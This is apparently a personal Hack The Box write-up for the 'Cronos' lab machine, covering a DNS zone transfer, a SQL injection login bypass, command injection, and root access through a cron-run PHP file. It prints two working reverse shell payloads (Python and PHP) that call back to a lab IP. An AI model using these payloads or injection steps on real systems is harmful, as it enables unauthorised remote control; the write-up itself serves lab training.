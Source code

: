 # Cronos

This is my write-up for the machine **Cronos** on Hack The Box located at: [https://app.hackthebox.com/machines/Cronos](https://app.hackthebox.com/machines/Cronos).

nmap scan: `nmap 10.10.10.13`

![](<../../.gitbook/assets/image (341) (1).png>)

We see three ports open. On port 80, we see the following:&#x20;

![](<../../.gitbook/assets/image (333).png>)

I am not too familiar with DNS enumeration methods. For this reason, after I searched online for a while (and got nowhere), I then read up what I had missed from the official Hack The Box write-up for this machine. In it the author says to add **cronos.htb** to the **/etc/hosts** file. Then run the following command:

`dig axfr @10.10.10.13 cronos.htb`

This will show us the following:

![](<../../.gitbook/assets/image (327).png>)

We see an **admin.cronos.htb**, so we will add that to the **/etc/hosts** file as well (step was mentioned in the official write-up):

![](<../../.gitbook/assets/image (338).png>)

Now if we go to **admin.cronos.htb**, we see the following:

![](<../../.gitbook/assets/image (347).png>)

Looking at the tags for this machine, I believe that we have to do a SQL Injection for this authentication portal:

![](<../../.gitbook/assets/image (367).png>)

I then opened this web page in Burp Suite to see if I can manipulate the outgoing HTTP requests. I was not able to get any where using the **Intruder** or **Repeater** modules. Reading the write-up again, it seems the SQL Injection I did try **admin'--** was incorrect by a small bit. I miseed the extra **" -"** at the end:

![screenshot from official write-up](<../../.gitbook/assets/image (332).png>)

I was then on this page:

![](<../../.gitbook/assets/image (346).png>)

I tried to run two commands together, the traceroute and an additional **ls**:

![](<../../.gitbook/assets/image (335) (1).png>)

When I run `cat index.php`, I get the following:

![](<../../.gitbook/assets/image (359).png>)

To me this means that there is room for me to run a reverse netcat connection to my own machine. Netcat did not work for me but the following python command from [this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) worked for me instead:

`export RHOST="10.10.14.14";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

&#x20;

![](<../../.gitbook/assets/image (361).png>)

I then upgraded by shell to a interactive tty shell (from [this website](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)):

![](<../../.gitbook/assets/image (334).png>)

I was able to find the user.txt flag in the user **noulis**'s home directory:

![](<../../.gitbook/assets/image (363) (1).png>)

In order to upload **linpeas.sh** to the machine, I had to download it locally and serve it up in a python http server:

![](<../../.gitbook/assets/image (357).png>)

I was then able to grab it from the other machine using **wget**:

![](<../../.gitbook/assets/image (358).png>)

In the official write-up, something stood out to me:

![](<../../.gitbook/assets/image (364).png>)

Obviously, in the real world a hint like this would not be given, but since I had tried what I had known and got nowhere, I took a hint from this. This led me to finding this:

![](<../../.gitbook/assets/image (360) (1).png>)

I knew that root was running the **artisan** file. After some messing around, what worked for me was creating a local file named artisan and copying all the contents from the original file into it. Then I edited one line in the file to get me a reverse shell:

`$sock=fsockopen("10.10.14.14",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);`

This was a line I got from the [same GitHub page mentioned previously](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php). After uploading the file using python3 http server, the file would upload as **artisan.1**:

![](<../../.gitbook/assets/image (356).png>)

As shown in the screenshot above, in order to go around this I just updated the file to be the one I gave it. I would recommend you run the netcat listener **prior** to updating the artisan file for best results. After a minute of waiting, I had the shell:

![](<../../.gitbook/assets/image (365).png>)
